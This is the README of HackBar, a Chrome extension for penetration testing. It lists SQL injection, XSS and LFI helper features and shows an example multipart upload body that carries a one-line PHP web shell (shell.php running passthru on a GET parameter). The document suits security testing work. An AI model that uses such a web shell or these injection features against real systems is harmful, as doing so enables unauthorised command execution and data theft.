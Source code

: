 # HackBar

HackBar for Chrome.

Available on [Chrome Web Store](https://chrome.google.com/webstore/detail/hackbar/ginpbkfigcoaokgflihfhhmglmbchinc).

## Requested Permissions

* tabs
* webRequest
* webRequestBlocking

## Features

* Supported methods
  * GET
  * POST
    * application/x-www-form-urlencoded
    * [multipart/form-data](#multipartform-data)
    * [application/json](#applicationjson)

* SQLi
  * Dump all database names (MySQL, PostgreSQL)
  * Dump tables from database (MySQL, PostgreSQL)
  * Dump columns from database (MySQL, PostgreSQL)
  * Union select statement (MySQL, PostgreSQL)
  * Error-based injection statement (MySQL)
  * Space to Inline comment

* XSS
  * Html encode/decode
  * String.fromCharCode encode/decode

* LFI
  * PHP wrapper - Base64

* Encoding
  * URL encode/decode
  * Base64 encode/decode
  * Hexadecimal encode/decode
  * Unicode encode/decode

* Hashing
  * MD5
  * SHA1
  * SHA256
  * SHA512

## Shortcuts

| Description | Default   | Mac           |
| ----------- | --------- | ------------- |
| Load URL    | `Alt + A` | `Control + A` |
| Split URL   | `Alt + S` | `Control + S` |
| Execute URL | `Alt + X` | `Control + X` |

## multipart/form-data

After changing **enctype** field to ```multipart/form-data```, you can put your payload into **Body** field such as the following:

```
------WebKitFormBoundarydbJBATDXCC6CL0lZ
Content-Disposition: form-data; name="user"

user
------WebKitFormBoundarydbJBATDXCC6CL0lZ
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-httpd-php

<?php passthru($_GET['c']); ?>
------WebKitFormBoundarydbJBATDXCC6CL0lZ--
```

We will consider the first line as boundary, and reconstruct a form element to send your request.

Therefore, sent boundary will not be the same as your typed.

## application/json

After changing **enctype** field to ```application/json```, you can put your payload into **Body** field such as the following:

```
{
  "username": "admin",
  "password": "admin"
}
```

In order to post JSON data, we will insert a dummy field or object to your JSON such as the following:

```
{"username":"admin","password":"admin","4dxnzjzd5mi":"="}
```

For more details, please visit "[Posting JSON with an HTML Form](https://systemoverlord.com/2016/08/24/posting-json-with-an-html-form.html)".

## Third-party Libraries

* Vue.js
* Vuetify.js
* [jshashes](https://github.com/h2non/jshashes)
* [utf8.js](https://github.com/mathiasbynens/utf8.js)
